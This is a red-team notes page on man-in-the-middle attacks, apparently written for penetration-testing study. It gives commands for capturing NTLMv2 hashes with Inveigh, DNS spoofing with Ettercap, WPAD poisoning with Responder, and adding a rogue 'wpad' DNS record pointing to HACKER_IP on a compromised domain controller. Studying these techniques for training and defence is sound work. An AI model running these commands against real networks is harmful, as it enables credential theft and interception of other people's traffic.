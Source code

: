 # Man-in-the-middle attack

<div class="row row-cols-lg-2"><div>

A Man-in-the-middle <small>(M-I-T-M)</small> design an attack where an attacker seats between clients and their target server.

* They fooled the client and made them believe they are the 'server'
* They are able to access and maybe edit/drop every message

The hacker will most likely be able to read hashes or credentials sent over the network allowing them to compromise more accounts 🔑.
</div><div>

See also: [LLMNR/NBT-NS Poisoning](/cybersecurity/red-team/s2.discovery/techniques/network/poisoning.md).
</div></div>

<hr class="sep-both">

## Common tools

<div class="row row-cols-lg-2"><div>

#### Inveigh

[![active_directory_enumeration_attacks](../../../../../_badges/htb/active_directory_enumeration_attacks.svg)](https://academy.hackthebox.com/course/preview/active-directory-enumeration--attacks)

[Inveigh](https://github.com/Kevin-Robertson/Inveigh) <small>(2.3k ⭐)</small> is a M-I-T-M tool on Windows.

The PS1 script is deprecated:

```ps
PS> Import-Module .\Inveigh.ps1
PS> Invoke-Inveigh Y -NBNS Y -ConsoleOutput Y -FileOutput Y
```

You can use the executable if you have admin privileges:

```ps
$ wget https://github.com/Kevin-Robertson/Inveigh/releases/download/v2.0.10/Inveigh-net7.0-win-x64-trimmed-single-v2.0.10.zip -O Inveigh.zip
$ unzip Inveigh.zip
PS> .\Inveigh.exe
...
HELP<cr>
PROMPT> GET NTLMV2UNIQUE
PROMPT> GET NTLMV2USERNAMES
```
</div><div>

#### Ettercap

[![attacking_common_services](../../../../../_badges/htb/attacking_common_services.svg)](https://academy.hackthebox.com/course/preview/attacking-common-services)

[Ettercap](https://github.com/Ettercap/ettercap) <small>(2.2k ⭐)</small> is a M-I-T-M tool.

```shell!
$ cat /etc/ettercap/etter.dns
example.com      A   X.X.X.X
*.example.com    A   X.X.X.X
```

* Navigate to `Hosts > Scan for Hosts`
* Edit the host configuration
* Navigate to `Plugins > Manage Plugins`
* Active to a `dns_spoof` attack.
</div></div>

<hr class="sep-both">

## WPAD rogue proxy server

[![windows_privilege_escalation](../../../../../_badges/htb/windows_privilege_escalation.svg)](https://academy.hackthebox.com/course/preview/windows-privilege-escalation)
[![active_directory_enumeration_attacks](../../../../../_badges/htb/active_directory_enumeration_attacks.svg)](https://academy.hackthebox.com/course/preview/active-directory-enumeration--attacks)

<div class="row row-cols-lg-2"><div>

The Web Proxy Auto-Discovery (WPAD) Protocol is used by web browsers to automatically find the web proxy on the network.

Clients will send a WPAD query to look for the proxy server. The server responds with the URL to the proxy configuration file (`wpad.dat`).

Hackers can set up a rogue WPAD proxy server and intercept network traffic of the hosts that got fooled. WPAD is not enabled by default in most web browsers aside from Internet Explorer.
</div><div>

We can use [responder](/cybersecurity/red-team/tools/utilities/networking/responder.md):

```ps
$ sudo responder -I tun0 -wdF -b
```

We can edit the configuration of a compromised host:

```ps
PS> Set-DnsServerGlobalQueryBlockList -Enable $false -ComputerName dc01.example.com
PS> Add-DnsServerResourceRecordA -Name wpad -ZoneName example.com -ComputerName dc01.example.com -IPv4Address HACKER_IP
```
</div></div>